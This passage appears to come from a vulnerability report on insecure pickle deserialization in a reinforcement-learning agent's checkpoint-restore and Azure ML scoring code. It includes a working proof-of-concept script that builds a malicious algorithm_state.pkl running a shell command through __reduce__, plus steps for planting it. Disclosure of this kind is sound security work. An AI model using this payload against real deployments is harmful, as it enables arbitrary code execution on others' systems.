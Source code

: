     - The vulnerability lies within the line `data = pickle.load(fp)`. `pickle.load` deserializes data from the `algorithm_state.pkl` file. Replacing this file with a malicious pickle file allows for arbitrary code execution when this line is executed.
    - **File:** `/code/examples/deploy-on-aml/score.py`
    ```python
    from platotk.restore import restore_agent_from_pickle
    # ...
    def init():
        """Initialize the agent from the checkpoints."""
        global model
        # ...
        checkpoint_folder = Path(os.getenv("AZUREML_MODEL_DIR")) / CHECKPOINT_FOLDER
        model = restore_agent_from_pickle( # Vulnerable function call
            observation_space, action_space, checkpoint_folder
        )
        logging.info("Init complete")
    ```
    - The deployment script `score.py` invokes the vulnerable `restore_agent_from_pickle` function during agent initialization. This makes deployed agents susceptible to insecure deserialization if a compromised checkpoint is employed.
- **Security Test Case:**
    1. **Malicious Pickle File Creation:** Generate a malicious `algorithm_state.pkl` file using the following Python script. This script creates a pickle file that, upon deserialization, will execute arbitrary code (specifically, it will create a file named `/tmp/pwned`).
        ```python
        import pickle
        import os

        class MaliciousPayload(object):
            def __reduce__(self):
                return (os.system, ('touch /tmp/pwned',))

        payload = MaliciousPayload()
        with open("algorithm_state.pkl", "wb") as f:
            pickle.dump({'config': None, 'worker': None, 'policy_map': None, '__version__': '2.5.0', 'ray_version': '2.5.0', 'payload': payload}, f)
        ```
    2. **Checkpoint File Replacement:** Navigate to the checkpoint directory, for instance, `/code/examples/deploy-agent/checkpoints/checkpoint_000010`, and replace the original `algorithm_state.pkl` with the malicious file generated in the previous step.
    3. **Agent Deployment:** Follow the deployment instructions in `/code/examples/deploy-agent/README.md` or `/code/examples/deploy-on-aml/README.md` to deploy the agent, ensuring the modified checkpoint is used.
    4. **Trigger Agent Execution:** Send a request to the deployed agent endpoint as described in the deployment documentation (e.g., using `curl` or Python requests). This will trigger the `init()` function in `score.py`, subsequently calling `restore_agent_from_pickle` and loading the malicious pickle file.
    5. **Verification of Code Execution:** Check for the creation of the file `/tmp/pwned` on the system where the agent is deployed. The presence of this file confirms successful arbitrary code execution due to insecure deserialization.
